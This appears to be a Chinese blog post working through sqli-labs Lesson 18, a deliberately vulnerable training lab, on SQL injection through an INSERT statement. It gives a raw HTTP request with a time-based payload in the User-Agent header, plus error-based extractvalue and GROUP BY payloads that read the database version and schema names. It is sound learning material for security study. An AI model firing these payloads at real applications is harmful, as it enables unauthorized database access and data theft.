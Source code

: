 ```yaml
---
id: 648
layout: post
title: 'sqli lab 4 - insert 语句注入'
date: 2016-01-02 16:20:00
author: virusdefender
tags:  安全
---
```


这一次直接跳到 Lesson-18，之前的课程都可以之前三篇文章的方法去解决的。

这一次的是 insert 语句的注入，这个和之前的其实也很相似的，主要能构造出一个字符串就可以，然后放在 or 或者 and 里面作为条件。

```
POST /sqli-labs/Less-18/ HTTP/1.1
Host: 172.16.61.153
User-Agent: test' or sleep(4) or '
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://172.16.61.153/sqli-labs/Less-18/
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 38

uname=admin&passwd=admin&submit=Submit
```

发现响应了好几秒，确定注入点就在 User-Agent 上。sql 语句应该类似 `INSERT INTO table (user_agent) VALUES ($_SERVER['HTTP_USER_AGENT'])`

使用 `extractvalue`的 ua 是`User-Agent: test' or extractvalue(1, concat("/", version())) or '`

group by 报错的 ua 是`User-Agent: test' or (select 1 from (select count(*), concat((select schema_name from information_schema.schemata limit 1 offset 1), floor(rand(0)*2))x from information_schema.tables group by x)a) or '`

翻看了一下源代码，在登录的地方进行了转义处理，这样是没问题的，所以不要尝试注入登录的代码了。

```php
function check_input($value)
{
    if(!empty($value))
    {
        // truncation (see comments)
        $value = substr($value,0,20);
    }

    // Stripslashes if magic quotes enabled
    if (get_magic_quotes_gpc())
    {
        $value = stripslashes($value);
    }

    // Quote if not a number
    if (!ctype_digit($value))
    {
        $value = "'" . mysql_real_escape_string($value) . "'";
    }
    else
    {
        $value = intval($value);
    }
    return $value;
}

```
除了 User-Agent 里面会出现注入以外，cookie 和 ip 字段注入也很常见。ip 字段注入一般是服务器端取的`X-Fordwarded-For`字段，而不是`remote_addr`，前一个 http 头是可以伪造的。

